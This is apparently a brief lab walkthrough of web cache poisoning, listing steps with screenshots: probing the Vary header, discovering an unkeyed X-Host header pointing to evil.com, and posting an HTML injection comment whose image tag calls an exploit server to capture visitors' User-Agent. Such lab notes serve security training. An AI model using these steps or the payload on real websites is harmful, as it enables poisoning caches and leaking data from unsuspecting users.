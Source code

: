 
1. Verify that the `Vary` response header tell us, that the User-Agent header can be cached.


![](/static/img/Pasted_image_20231116143043.png)

2. Runs para miner extension to verify all the "Headers"

![](/static/img/Pasted_image_20231116143239.png)

3. Add the evil.com host with the X-host header and send the request

![](/static/img/Pasted_image_20231116143443.png)
4. Add the following payload to the exploit server 
![](/static/img/Pasted_image_20231116143851.png)
5. Add the following payload inside any comment at the blog, to grab the users "User-Agent". 

```
><img src="//exploit.server/foo"/>aa 
```

![](/static/img/Pasted_image_20231116145649.png)

6. Now, go back to the root of the website and send your payload remember to send the request many times.. 

![](/static/img/Pasted_image_20231116151230.png)


![](/static/img/Pasted_image_20231116151241.png)

